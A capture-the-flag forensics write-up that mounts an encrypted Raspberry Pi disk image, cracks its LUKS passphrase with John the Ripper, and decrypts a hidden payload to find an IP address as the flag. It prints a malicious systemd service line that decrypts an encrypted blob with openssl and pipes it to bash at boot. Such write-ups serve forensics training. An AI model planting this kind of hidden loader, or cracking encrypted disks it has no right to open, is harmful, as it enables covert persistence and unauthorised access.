

# D12. Final Boss
**Objective:** Discover an IOC in a disk image.

**Difficulty:** Hard (500 points)

**Category:** Linux Forensics

## Materials and References
- **Provided:**
    - Disk image (sd card): `sdcard.img.7z`
    - Resource link: [Linux-Forensics-cheatsheet](https://fareedfauzi.github.io/2024/03/29/Linux-Forensics-cheatsheet.html#disk-imaging-using-dd)
- **Tools Used:**
    - Linux VM
    - Terminal
- **References:**
    - [stackexchange: how-to-mount-a-disk-image-from-the-command-line](https://unix.stackexchange.com/questions/316401/how-to-mount-a-disk-image-from-the-command-line)
    - [stackexchange: can-i-mount-a-partition-from-a-full-drive-image](https://unix.stackexchange.com/questions/230630/can-i-mount-a-partition-from-a-full-drive-image)
    - [losetup](https://linux.die.net/man/8/losetup)
    - [openssl-enc/](https://docs.openssl.org/3.0/man1/openssl-enc/)
    - [umount](https://linux.die.net/man/8/umount)
    - [cryptsetup](https://linux.die.net/man/8/cryptsetup)

## Flag Format
**Format:** a typical IOC value

Example: 
- `https://www.example.com/`
- `0.0.0.0`
- `user@example. com`

## Write-Up

Unzip the given disk image using the command below. The extracted file was `sdcard.img`.
```Bash
7za x sdcard.img.7z
```

<p align="center">
  
</p>

The challenge description states the SD card has what looks like a RaspberryPi boot partition.

Run command to list partition tables:
```Bash
fdisk -l sdcard.img
```
2 partition tables were discovered:
- `W95 FAT32 (LBA)` Partition with size 256MB
    - Possible the RaspberryPi boot partition, will refer as boot partition
- `Linux` Partition with size 4x2GB
    - Will refer to this as our root partition

<p align="center">
  
</p>

### Mounting Partitions

Need to mount the partition to analyze it. 

**Root Partition**

Focus was placed on mounting the root (Linux) partition to inspect its contents. Since this partition is larger, it is likely the main filesystem and may contain the IOC.

To mount, the byte offset of the root partition needs to be calculated. This value represents where the root partition begins inside `sdcard.img`.

```text
Start sector  * sector size  = 532480 * 512 = 272629760
```

Create a mount point with the command below. This will be the folder where the partition's contents will appear once the disk image partition is mounted.

```Bash
sudo mkdir /mnt/root
```

Then mount the root partition using the calculated offset with the command:

```Bash
sudo mount -o loop,offset=272629760 sdcard.img /mnt/root
```
- `sudo`: Required to mount file systems
- `mount`: The mount command
- `o loop`: Treats the image file as a block device
- `offset=272629760`: Byte offset where the partition starts
- `sdcard.img`: The full disk image file
- `/mnt/root`: Where to mount it

<p align="center">
  
</p>

The mount failed with an unknown filesystem type indicating crypto_LUKS:
> mount: /mnt/root: unknown filesystem type 'crypto_LUKS' .\
dmesg(1) may have more information after failed mount system call.

To unlock the partition, first create a loop device for the root partition using the command:

```Bash
sudo losetup -fP --show -o 272629760 sdcard.img
```
- `losetup`: Tool to create loop devices
- `-fP`: Automatically finds a free loop device and parses partitions
- `--show`: Displays the loop device name (e.g., /dev/loop0)
- `o 272629760`: Offset to the encrypted partition

<p align="center">
  
</p>

Verify it's encrypted with LUKS with command:

```Bash
sudo cryptsetup luksDump /dev/loop0
```

<p align="center">
  
</p>

Run the following command to unlock the root partition (prompts a passphrase). Default credentials (such as password) was tested first but failed.
- If correct passphrease, makes the decrypted device available at `/dev/mapper/rootfs`

```Bash
sudo cryptsetup luksOpen /dev/loop0 rootfs
```

<p align="center">
  
</p>

The passphrase is given or not known at this point. Since the partition is encrypted, the IOC is likely stored inside. The passphrase may be in the boot partiton, therefore it is mounted next to investigate.

**Boot Partition**

Mount the boot partition to search for a potential password of the root partition.

Calculate the boot partition offset with the expression:
```text
Start sector  * sector size  = 8192 * 512 = 4194304
```

Use the following commands to create a mount point and mount the boot partition using the calculated offset. The direct mount failed due to an existing loop device on the root partition.
```Bash
mkdir /mnt/boot #mount point
sudo mount -o loop,offset=4194304 sdcard.img /mnt/boot #attempt to mount boot partition
```

Another loop device needs to be created for the boot partition. Run the commands below to create a separate loop device for the boot partition and mount that device instead:
```Bash
sudo losetup -fP --show -o 4194304 sdcard.img #loop device for boot partition
sudo mount /dev/loop1 /mnt/boot #mount boot partition
ls /mnt/boot #see directory in boot partition
```

<p align="center">
  
</p>

There are only 3 txt files within the boot partiton. Each were inspected but none contained the password needed to unlock the root partition.

**Cracking LUKS Password**

Focus shifted to cracking the password using john the ripper.

To extract the LUKS hash from the loop device, run the command:

```Bash
sudo /usr/share/jogn/luks2john.py /devloop0 > luks_hash.txt
```

<p align="center">
   luks_hash.txt" width="500"/>
</p>

Run John the Ripper using the **RockYou** wordlist and `luks` format:

```Bash
john --format=luks --wordlist=/usr/share/wordlists/rockyou.txt luks_hash.txt
```

The password is `djcat`.

<p align="center">
  
</p>

Decrypt partition using the discovered password by running the command:

```Bash
sudo cryptsetup luksOpen /dev/loop0 rootfs
```

<p align="center">
  
</p>

To confirm the decrypted device exists at `/dev/mapper/rootfs`, run the following command and check if **rootfs** is listed:
```Bash
ls /dev/mapper/
```

Mount root partition by running the command:

```Bash
sudo mount /dev/mapper/rootfs /mnt/root
```

To check if the root partition is mounted, run the command to see the directory:
```Bash
ls /mnt/root
```

<p align="center">
  
</p>

### Analyzing Root Partition

Multiple locations on the root partition were inspected, including:
- `/mnt/root/tmp`
- `/mnt/root/etc/crontab`
- `/mnt/root/opt`
- `/mnt/root/etc`
- `/mnt/root/var/log`

Multiple references to `tinypilot` were found. The files align to the findings from D11 about IP KVM (USB devices acting as HID for remote controlling). While this connects to D11, no IOC was discovered within these files. 

`tinypilot` related findings: 
- `mnt/root/home/tinypilot`
- `tinypilot.db`
- `/mnt/root/opt/tinypilot`
- `/mnt/root/opt/tinypilot-privileged`

<p align="center">
  
  
</p>

From the given resource, focused attention to the section `live response commands` to review anomalous behavior. A few categories explored are:
- Review Network    
- Review Activities / Command History    
- Installed Programs
- Large Files
- Most recent modified files
- devices in /dev
- Services and systemd

A custom service file located at `/mnt/root/etc/systemd/system/tunnel.service` may be related to IPs and was selected for further analysis:
- `tunnel.service`

<p align="center">
  
</p>

Inspect `tunnel.service` by running the command below. The file contained a Base64-encoded string that was used for a command. This could contain the IOC: 
```Bash
sudo cat /mnt/root/etc/systemd/system/tunnel.service
```

Find an interesting line:
> Environment=SERVICEDATA="U2FsdGVkX1/YfJQW/JLTLYE//2c7AodbgJVFXknjQ+kyUkNRZDCTXWADnwFCjHKVJAOG2rk+iUvCETeXv3+I8PWGSVOUesrzqMFp+OBVd/4=" \
ExecStart=/bin/bash -c 'openssl enc -aes-256-cbc -d -a -pass pass:$HOSTNAME$MACHTYPE -pbkdf2 <<< "$SERVICEDATA" | bash'

<p align="center">
  
</p>

To decrypt the cipher test, the `HOSTNAME` and the `MATCHTYPE` is needed. From previous investigation on the network, the hostname can be found with the command:
```Bash
sudo cat /mnt/root/etc/hostname
```

<p align="center">
  
</p>

Used grep command to find where `MATCHTYPE` is mentioned:
```Bash
grep -Ri 'MACHTYPE' /mnt/root/*
```

Within the results is the `MATCHTYPE` value is found:
> MACHTYPE="arm-unknown-linux-gnueabihf"

<p align="center">
  
</p>

The encrypted string was decrypted using OpenSSL with the combined passphrase tinypilotarm-unknown-linux-gnueabihf:

Used the same openSSL command to decrypt the ciphertext with the credentials found:
```Bash
echo 'U2FsdGVkX1/YfJQW/JLTLYE//2c7AodbgJVFXknjQ+kyUkNRZDCTXWADnwFCjHKVJAOG2rk+iUvCETeXv3+I8PWGSVOUesrzqMFp+OBVd/4=' | \
openssl enc -aes-256-cbc -d -a -pbkdf2 -pass pass:tinypilotarm-unknown-linux-gnueabihf
```
- `echo`: outputs the encrypted Base64 string.
- `openssl enc`: runs OpenSSL’s encryption/decryption tool
- `-aes-256-cbc`: specifies the encryption algorithm used: AES with 256-bit key in CBC mode
- `-d`: decryption
- `-a`: indicates the input is Base64-encoded
- `-pbkdf2`: uses the more secure PBKDF2 key derivation method to convert the password to a key
- `-pass pass:tinypilotarm-unknown-linux-gnueabihf`: supplies the decryption password directly

The output revealed the IOC: `232.122.57.92`

<p align="center">
  
</p>

---
**Flag**: `232.122.57.92`